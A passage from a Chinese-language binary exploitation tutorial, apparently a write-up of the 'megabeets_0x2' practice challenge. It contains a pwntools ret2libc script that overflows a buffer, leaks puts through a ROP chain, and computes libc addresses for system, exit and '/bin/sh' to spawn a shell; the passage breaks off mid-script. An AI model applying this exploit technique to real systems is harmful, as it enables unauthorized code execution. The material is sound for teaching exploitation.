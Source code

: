 ### spawning a shell

第二阶段的exp是非常直接的，我们将再次使用140字节的padding，然后以 /bin/sh 的地址为参数调用 system，然后运行 exit。

- padding（140 bytes）
- system@libc
- exit@libc
- /bin/sh address

还记得上次返回的 entrypoint 地址么？ 它意味着 scanf 在等着我们再次输入。现在，我们需要执行一系列的链式调用并把它发送到程序。

下面是我们的exp代码：
```py
from pwn import *

# Addresses
puts_plt = 0x8048390
puts_got = 0x804a014
entry_point = 0x80483d0

# Offsets
offset_puts = 0x00062710 
offset_system = 0x0003c060 
offset_exit = 0x0002f1b0
offset_str_bin_sh = 0x167768 

# context.log_level = "debug"

def main():
    
    # open process
    p = process("./megabeets_0x2")

    # Stage 1
    
    # Initial payload
    payload  =  "A"*140
    ropchain =  p32(puts_plt)
    ropchain += p32(entry_point)
    ropchain += p32(puts_got)

    payload = payload + ropchain

    p.clean()
    p.sendline(payload)

    # Take 4 bytes of the output
    leak = p.recv(4)
    leak = u32(leak)
    log.info("puts is at: 0x%x" % leak)
    p.clean()
    
    # Calculate libc base
    libc_base = leak - offset_puts
    log.info("libc base: 0x%x" % libc_base)

    # Stage 2
    
    # Calculate offsets
    system_addr = libc_base + offset_system
    exit_addr = libc_base  + offset_exit
    binsh_addr = libc_base + offset_str_bin_sh

    log.info("system is at: 0x%x" % system_addr)
    log.info("/bin/sh is at: 0x%x" % binsh_addr)
```
